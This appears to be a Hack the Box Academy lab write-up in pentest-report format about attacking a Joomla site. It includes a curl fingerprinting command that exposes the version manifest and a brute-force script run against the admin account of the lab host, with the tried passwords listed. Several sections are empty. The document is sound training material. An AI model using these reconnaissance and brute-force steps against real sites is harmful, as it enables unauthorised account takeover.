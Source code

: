 ```yaml
---
title: "Hack the Box"
subtitle: "Attacking Joomla"
author: "errbufferoverfl"
date: 2023-10-28T12:20:13+11:00
categories:
categories:
  - Learning
  - Hack the Box
  - Hack the Box Academy
  - Offensive
  - Joomla
---
```


## Summary


## Attack Chain: Compromising Joomla


## Findings

### Fingerprinting

```shell
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.10.0</version>
  <creationDate>August 2021</creationDate>
  <description>FILES_JOOMLA_XML_DESCRIPTION</description>
  <scriptfile>administrator/components/com_admin/script.php</scriptfile>
  <update>
    <schemas>
      <schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
      <schemapath type="sqlsrv">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
      <schemapath type="sqlazure">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
      <schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
    </schemas>
  </update>
  <fileset>
    <files>
      <folder>administrator</folder>
      <folder>bin</folder>
      <folder>cache</folder>
      <folder>cli</folder>
      <folder>components</folder>
      <folder>images</folder>
      <folder>includes</folder>
      <folder>language</folder>
      <folder>layouts</folder>
      <folder>libraries</folder>
      <folder>media</folder>
      <folder>modules</folder>
      <folder>plugins</folder>
      <folder>templates</folder>
      <folder>tmp</folder>
      <file>htaccess.txt</file>
      <file>web.config.txt</file>
      <file>LICENSE.txt</file>
      <file>README.txt</file>
      <file>index.php</file>
    </files>
  </fileset>
  <updateservers>
    <server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
  </updateservers>
</extension>
```

### Weak Password Requirements

*The affected host does not require users to have strong passwords, making it easier for threat actors to compromise user accounts.*

- **CWE:** CWE-521
- **CVSS 3.1 Score:** 9.1 Critical
- **CVSS 3.1 Temporal Score:** 8.7 High
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C
- **Security Impact:** When successfully exploited, weak password requirements can result in a threat actor gaining long-term unauthorised access to the users account. Depending on the permissions associated with the compromised account, impact can vary.
- **Affected Hosts:** app.inlanefreight.local

#### Reproduction

The following figure shows using joomla-bruteforce and the `rockyou` password list against `app.inlanefreight.local` to brute-force the password for the user account `admin`. 

```shell-session
python3 joomla-brute.py -u http://app.inlanefreight.local -w ../SecLists/Passwords/http_default_pass.txt -usr admin -v
 admin:admin
 admin:password
 admin:manager
 admin:letmein
 admin:cisco
 admin:default
 admin:root
 admin:apc
 admin:pass
 admin:security
 admin:user
 admin:system
 admin:sys
 admin:none
 admin:xampp
 admin:wampp
 admin:ppmax2011
 admin:turnkey
```


## Appendix A. Exploited Systems

- app.inlanefreight.local

## Appendix B. Compromised Users

The following is a list of user accounts compromised in the course of the assessment.


## Appendix C. Changes Made to the System & Artefacts Cleanup